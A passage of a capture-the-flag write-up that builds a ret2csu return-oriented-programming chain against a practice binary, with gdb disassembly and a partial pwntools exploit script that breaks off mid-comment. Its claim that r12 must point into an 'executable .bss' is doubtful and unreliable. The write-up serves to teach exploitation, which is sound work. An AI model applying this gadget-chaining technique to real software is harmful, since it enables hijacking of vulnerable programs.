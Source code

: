 Next step is determining the correct or desired values for **rbx, rbp and r12** registers because 0x41..., 0x42...., 0x43... are not valid memory addresses.For execution of second rop gadget chain, we need to set right values of `rbp` and `rbx` due to a loop conditional.

```asm
   0x0000000000400680 <+64>:	mov    rdx,r15
   0x0000000000400683 <+67>:	mov    rsi,r14
   0x0000000000400686 <+70>:	mov    edi,r13d
   0x0000000000400689 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040068d <+77>:	add    rbx,0x1
   0x0000000000400691 <+81>:	cmp    rbp,rbx
   0x0000000000400694 <+84>:	jne    0x400680 <__libc_csu_init+64>
   0x0000000000400696 <+86>:	add    rsp,0x8
```

Second gadget starts at **0x0000000000400680**,in which we are set values of rdi,r14 and rdx with correct argument values. Set values of **rbx** and **rbp** correctly so that conditional **cmp** is always true. Because of add instruction of 1 to rbx, `rbx` value needs to be 0 and `rbp` value to 1. when the registers are compared, the values are equal and Zero flag is set.

NB: "Adjust values in payload script and single step to confirm the validity of new values in the memory."

For register **r12**, the address should lie in executable memory address. The **.bss** section is executable, therefore r12 should be set to memory address of bss section. After executing our second rop chain gadget, we need to adjust the stack as shown in the exploit code to avoid segmentation fault.

Lastly we need to control the **rdi** register with the value **0xdeadbeefdeadbeef**. Because we have full control of rdx and rsi register, next is to look for a `pop rdi, ret` gadget.

```asm
  0x004006a3                 5f  pop rdi
  0x004006a4                 c3  ret
```

Now we can pass the **0xdeadbeefdeadbeef** argument to the ret2win function.Now we have all the correct values of rdi, rsi and rdx correctly set, calling the ret2win function will result to us getting the correct flag.

The full code of the rop chain is as shown below.

```python
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"
io = pwn.process('./ret2csu')

#arguments passed to ret2win function ret2win(arg1, arg2, arg3)
arg1 =pwn.p64(0xdeadbeefdeadbeef)
arg2 =pwn.p64(0xcafebabecafebabe)
arg3 =pwn.p64(0xd00df00dd00df00d)

ret2win_addr =pwn.p64(io.elf.plt['ret2win'])   #resolve address of ret2win function
pop_rbx_rbp_r12_r13_r14_r15_addr = pwn.p64(0x0040069a)  #first stage gadget
dereference_pointer = pwn.p64(0x00600e48)  #bss area which is executable
stage2_addr = pwn.p64(0x00400680)  #addr of second stage rop chain
pop_rdi = pwn.p64(0x004006a3)

# ropchains
#stage1 ropchain
'''
            0x0040069a      pop   rbx
│           0x0040069b      pop   rbp
│           0x0040069c      pop   r12
│           0x0040069e      pop   r13
│           0x004006a0      pop   r14
```